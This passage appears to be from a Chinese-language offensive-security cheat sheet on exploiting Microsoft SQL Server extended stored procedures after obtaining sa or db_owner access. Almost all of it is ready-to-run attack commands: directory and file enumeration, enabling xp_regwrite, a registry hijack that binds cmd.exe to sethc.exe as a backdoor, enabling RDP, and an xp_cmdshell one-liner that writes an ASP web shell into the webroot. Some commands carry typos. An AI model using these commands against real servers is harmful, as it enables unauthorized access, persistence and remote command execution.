   #查询指定文件夹的文件列表
  exec master..xp_subdirs 'c:/';
  
  #显示当前目录的子目录xp_dirtree
  - directory :第一个参数是要查询的目录
  - depth :第二个参数是显示子目录深度,默认是0,显示所有子目录
  - file :第三个参数是bool类型,指定是否显示子目录中的文件,默认是0,表示不显示任何文件,只显示子目录
  
  exec master..xp_dirtree 'c:/';		//显示c盘所有文件和目录
  exec master..xp_dirtree 'c:/',1';	//显示c盘所有目录
  exec master..xp_dirtree 'c:/',1,1;	//显示指定目录下的目录和文件
  
  #xp_create_subdir创建子目录
  exec master..xp_create_subdir 'c:/test';
  
  #xp_fileexist判断文件是否存在
  exec master..xp_fileexist 'c:/windows/win.ini';
  
  #使用xp_regwrite存储过程对注册表近蜥形修改,替换成任意值,造成镜像劫持
  -前提条件
  - 1.未禁止注册表编辑
  - 2.xp_regwrite启用
  #查看xp_regwrite是否启用
  select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_regwrite';
  
  #开启xp_regwrite
  exec sp_configure 'show advanced options',1 RECONFIGURE
  exec sp_configure 'xp_regwrite',1 RECONFIGURE
  
  #利用regwrite修改注册表进行劫持
  exec master..xp_regwrite @rootkey='HKEY_LOCAL_MACHINE',@key='SOFTWARE/Microsoft/WindowsNT/CurrentVersion/Image File Executio Options/sethc.EXE',@value_name='Debugger',@type='REG_SZ',@value='c:/windows/system32/cmd.exe'
  
  #利用regwrite开启3389端口
  exec master.dbo.xp_regwrite 'HKEY_LOCAL_MACHINE','SYSTEM/CurrentControlSet/Control/Terminal Server','fDenyTSConnections','REG_DWORD',0;
  exec master..xp_cmdshell "REG ADD 'HKEY_LOCAL_MACHINE','SYSTEM/CurrentControlSet/Control/Terminal Server' /v fDenyTSConnections /t REG_DWORD /d 0"
  
  #利用xp_regread对注册表进行读取
  -读取注册查看是否修改成功
  exec master..xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE/Microsoft/WindowsNT/CurrentVersion/Image File Execution Options/sethc.exe','Debugger'
  
  #通过扩展存储过程拿shell
  - 前提
  - 数据库是db_owner权限
  - 涉及到的存储扩展过程:xp_cmdshell,xp_dirtree,xp_subdirs,xp_regread,xp_ntsec_enumdomains(查看domain信息)
  ```

------



#### 总结

- 条件:已知`web路径`,`sa或dba权限`

- 利用本地存储过程写shell

- xp_cmdshell

- ```sql
  exec master..xp_cmdshell 'echo ^<%eval request("cmd")%^> > c:/inetpub/wwwroot/shell.asp';
  ```
